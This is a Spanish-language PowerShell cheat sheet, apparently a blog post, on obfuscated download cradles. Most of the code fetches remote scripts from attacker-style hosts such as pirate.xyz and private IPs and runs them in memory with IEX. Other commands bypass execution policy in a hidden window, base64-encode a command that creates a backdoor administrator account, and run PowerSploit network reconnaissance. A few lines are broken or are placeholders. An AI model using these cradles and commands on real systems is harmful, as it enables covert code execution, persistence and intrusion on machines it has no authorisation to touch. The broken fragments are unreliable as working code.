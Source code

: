 ```yaml
---
title: 'Powershell Obfuscation'
description: ''
pubDate: 'May 12 2023'
heroImage: '/asd.png'
slug: 'powershell/obfuscation'
---
```


```powershell
# executa y descarga, el metodo DownloadString ejecutara nuestro script remoto en el proceso de la memoria del powershell
powershell IEX(New-Object Net.Webclient).downloadString(\'http://10.90.60.80:33333/script.ps1\')
# igual q, logo.gif igual ejecuta como ps1:
$downloader = New-Object System.Net.WebClient
$downloader.Headers.Add("user-agent", "Mozilla/5.0 (windwos ....)")
$payload = "http://goo.com/logo.gif"
$command = $downloader.DownloadString($payload)
Invoke-Expression $command
#same as "iex $command"

# Ruidoso y no recomendado
$downloader = New-Object System.Net.WebClient
$payload = "http://pirate.xyz/barbie.ps1"
$local_file = "C:\programdata\barbie.ps1"
$downloader.DownloadFile($payload, $local_file)
# podemos ejecutar así
& $loca_file

# system proxy y credenciales por defecto
$downloader = New-Object System.Net.WebClient
$payload = "http://pirate.xyz/script.ps1"
$cmd = $downloader.DownloadFile($payload)
$proxy = [Net.WebRequest]::GetSystemWebProxy()
$proxy.Credentials = [Net.CredentialCache]::DefaultCredentials
$downloader.Proxy = $proxy
iex $cmd

# Ejecutar en la memoria y configurado como proxy
$req = [System.Net.WebRequest]::Create("http://pirate.xyz/script.ps1")
$res = $req.GetResponse()
###
$proxy = [Net.WebRequest]::GetSystemWebProxy()
$proxy.Credentials = [Net.CredentialsCache]::DefaultCredentials
$req.Proxy = $proxy
iex ([System.IO.StreamReader]($res.GetResponseStream())).ReadToEnd()

# System.Xml.XmlDocument
# <?xml version="1.0"?>
# <command>
# <a>
# <execute>Get-Process</execute>
# </a>
# </command>
$xmldoc = New-Object System.Xml.XmlDocument
$xmldoc.Load("http://pirate.xyz/file.xml")
iex $xmldoc.command.a.execute

# COM objects
$downloader = New-Object -ComObject Msxml2.XMLHTTP
$downloader.open("GET", "http://pirate.xyz/script.ps1", $false)
$downloader.send()
iex $downloader.responseText

# WinHttp.WinHttpRequest.5.1
$downloader = New-Object -ComObject WinHttp.WinHttpRequest.5.1
$downloader.open("GET", "http://pirate.xyz/script.ps1", $false)
$downloader.send()
iex $downloader.responseText

## IMPORTANT
powershell.exe -ExecutionPolicy bypass -
Window hidden .\download.ps1
```

(herramienta de creación de cunas de descarga ofuscadas )[https://github.com/danielbohannon/Invoke-CradleCrafter]

### Invoke-Obfuscation

```powershell

SET SCRIPTBLOCK iex (New-Object Net.Webclient).downloadstring("http://192.168.0.17:8080/script.ps1")

# from cmd

powershell.exe -Command "obfuscate"

# add new user admin1 al grupo administrador

$command = `net user admin1 "password9001" /ADD;net localgroup administrators admin1 /add`
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

Write-Host $encodedCommand asihdaouishdpuioawhd auoisdhauispdhauishd

powershell.exe -encodedcommand asihdaouishdpuioawhdauoisdhauispdhauishd
```

### PowerSploit - Get-HttpStatus

```powershell
Get-HttpStatus -Target 192.168.0.17 -Path dictionary.txt -Port 80 | ? {$_.Status -match "ok"}
```

### PowerSploit - Posh-SecMod

```powershell
Invoke-ARPScan -CIDR 192.168.0.0/24

Get-Command -Module Posh-SecMod

```

[Get-HttpStatus](https://powersploit.readthedocs.io/en/latest/Recon/Get-HttpStatus/)
[Invoke-Portscan.ps1](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Portscan/)
[Posh-SecMod](https://github.com/darkoperator/Posh-SecMod)
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)
